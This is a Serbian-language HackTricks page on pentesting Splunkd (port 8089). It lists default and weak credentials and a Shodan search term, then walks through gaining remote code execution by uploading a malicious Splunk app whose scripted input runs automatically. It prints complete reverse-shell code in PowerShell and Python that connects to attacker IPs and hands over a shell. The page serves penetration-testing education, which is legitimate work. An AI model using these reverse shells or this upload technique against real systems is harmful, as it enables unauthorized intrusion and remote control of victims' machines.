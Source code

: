 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## **Osnovne informacije**

* Alat za analizu logova koji se koristi za prikupljanje podataka, analizu i vizualizaciju
* Često se koristi u bezbednosnom nadzoru i poslovnoj analitici
* Podrazumevani portovi:
* Web server: 8000
* Splunkd usluga: 8089

### Vektori ranjivosti:

1. Iskorišćavanje besplatne verzije

* Probna verzija se automatski pretvara u besplatnu verziju nakon 60 dana
* Besplatna verzija nema autentifikaciju
* Potencijalni bezbednosni rizik ako se ne upravlja
* Administratori mogu zanemariti bezbednosne implikacije

2. Slabosti kredencijala

* Starije verzije: Podrazumevani kredencijali `admin:changeme`
* Novije verzije: Kredencijali postavljeni tokom instalacije
* Potencijal za korišćenje slabih lozinki (npr., `admin`, `Welcome`, `Password123`)

3. Mogućnosti daljinskog izvršavanja koda

* Više metoda izvršavanja koda:
* Server-side Django aplikacije
* REST krajnje tačke
* Skriptovani ulazi
* Skripte za upozorenje
* Podrška za više platformi (Windows/Linux)
* Skriptovani ulazi mogu da se izvršavaju:
* Bash skripte
* PowerShell skripte
* Batch skripte

Ključni potencijal za iskorišćavanje:

* Skladištenje osetljivih podataka
* Nedostatak autentifikacije u besplatnoj verziji
* Više vektora za potencijalno daljinsko izvršavanje koda
* Mogućnost korišćenja skriptovanih ulaza za kompromitovanje sistema

### Shodan

* `Splunk build`

## RCE

### Kreirajte prilagođenu aplikaciju

Splunk nudi sofisticiranu metodu za daljinsko izvršavanje koda kroz implementaciju prilagođene aplikacije, koristeći svoje mogućnosti skriptovanja na više platformi. Osnovna tehnika iskorišćavanja se vrti oko kreiranja zlonamerne aplikacije koja može izvršavati reverzne ljuske na Windows i Linux sistemima.

Prilagođena aplikacija može da izvršava **Python, Batch, Bash ili PowerShell skripte**. Štaviše, **Splunk dolazi sa instaliranim Python-om**, tako da čak i na **Windows** sistemima možete izvršavati Python kod.

Možete koristiti [**ovaj**](https://github.com/0xjpuff/reverse_shell_splunk) primer sa **`bin`** koji sadrži primer za [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) i [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Ili možete kreirati svoj.

Proces iskorišćavanja prati doslednu metodologiju širom platformi:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
Kritična konfiguraciona datoteka `inputs.conf` omogućava skriptu na sledeći način:

* Postavljanjem `disabled = 0`
* Konfigurišući interval izvršenja od 10 sekundi
* Definisanjem tipa izvora skripte

Implementacija je jednostavna:

1. Kreirajte paket zlonamerne aplikacije
2. Postavite slušalac (Netcat/socat) na napadačkom računaru
3. Otpremite aplikaciju putem Splunk-ovog interfejsa
4. Pokrenite automatsko izvršavanje skripte prilikom otpremanja

Primer Windows PowerShell reverz shell-a:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
Primer Linux Python reverz shell-a:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

Na sledećoj stranici možete pronaći objašnjenje kako se ova usluga može zloupotrebiti za eskalaciju privilegija i dobijanje postojanosti:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
